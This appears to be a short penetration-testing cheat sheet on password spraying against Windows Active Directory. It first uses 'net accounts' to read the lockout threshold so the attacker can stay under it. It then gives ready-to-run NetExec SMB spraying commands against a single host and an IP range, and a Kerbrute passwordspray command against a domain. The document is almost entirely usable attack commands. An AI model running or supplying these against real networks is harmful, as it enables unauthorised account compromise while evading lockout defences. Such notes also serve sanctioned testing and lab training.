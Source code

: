 # Initial Enumeration
Run the following command on a target if possible:
```batch
net accounts
```
This will give two important details:
* Lockout threshold (how many attempts before your locked out)
* Lockout observation window (how long your locked out for)

It is worth noting these values and adjusting password spraying attacks accordingly (i.e. do less password attempts than the lockout).
# SMB Password Spraying
Sprays user accounts with "Nexus123!" password
```bash
nxc smb $(ANY_DOMAIN_JOINED_MACHINE_IP) -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
Spray multiple targets at once:
```bash
nxc smb 192.168.182.70-76 -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
# TGT Password Spraying
https://github.com/ropnop/kerbrute

Kerbrute can be run on windows or linux. This example ruins on windows to spray usernames with the password "Nexus123!".
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
